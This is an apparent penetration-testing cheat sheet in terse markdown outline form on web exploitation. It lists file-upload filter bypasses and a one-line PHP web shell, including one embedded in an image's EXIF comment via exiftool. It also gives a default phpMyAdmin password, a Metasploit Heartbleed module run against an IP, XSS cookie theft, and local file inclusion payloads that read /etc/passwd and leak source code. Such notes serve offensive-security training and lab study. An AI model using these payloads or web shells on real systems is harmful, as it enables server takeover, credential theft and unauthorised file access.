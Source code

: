 -   Upload page
	-   Upload shell to make reverse shell
	-   Bypass file upload filtering
	-   Rename it
		-   upload it as shell.php.jpg
	-   Blacklisting bypass, change extension
		-   php phtml, .php, .php3, .php4, .php5, and .inc
		-   bypassed by uploading an unpopular php extensions. such as: pht, phpt, phtml, php3, php4, php5, php6
		-   asp asp, .aspx
		-   perl .pl, .pm, .cgi, .lib
		-   jsp .jsp, .jspx, .jsw, .jsv, and .jspf
		-   Coldfusion .cfm, .cfml, .cfc, .dbm
-  Whitelisting bypass
	-   passed by uploading a file with some type of tricks,
	-   Like adding a null byte injection like ( `shell.php%00.gif` ).
	-   Or by using double extensions for the uploaded file like ( shell.jpg.php)
	-   GIF89a;
	-   If they check the content. Basically you just add the text "GIF89a;" before you shell-code.
		``<? system($_GET['cmd']);//or you can insert your complete shellcode ?>``
	-   In image
		-   manipulate data
		-   `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`
		-   rename it			
			-  `mv lo.jpg lo.php.jpg`

-   Phpmyadmin
	-   Default password `root:pma`
-   Webmin
    -   Have vulnerabilities, google.
-   Identify WAF using `wafw00f`   
- Spidering a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers
-   WMAP Web Scanner
    -   web application vulnerability scanner

**Exploitation**
-   Heartbleed exploit
    
        use auxiliary/scanner/ssl/openssl_heartbleed
        set RHOSTS 192.168.3.212
        set verbose true
        run

-   XXS
	-   Session hijacking / Cookie theft. Steal cookie to get admin privilege
	-   use xsser tool
-   Local File Inclusion
	-   Bypassing php-execution
		-   `http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index`
	-   Bypassing the added .php and other extra file-endings
		-   `` http://example.com/page=../../../../../../etc/passwd%00 ``
		-   `` http://example.com/page=../../../../../../etc/passwd? ``
	-   folder that always exist
		-   `/etc/hosts /etc/resolv.conf`
	-   add %00jpg to end of files
		-   `/etc/passwd%00jpg`
	-   Refer this for more information
		-   [https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html](https://sushant747.gitbooks.io/total-oscp-guide/local_file_inclusion.html)
		-   [https://highon.coffee/blog/lfi-cheat-sheet/](https://highon.coffee/blog/lfi-cheat-sheet/)
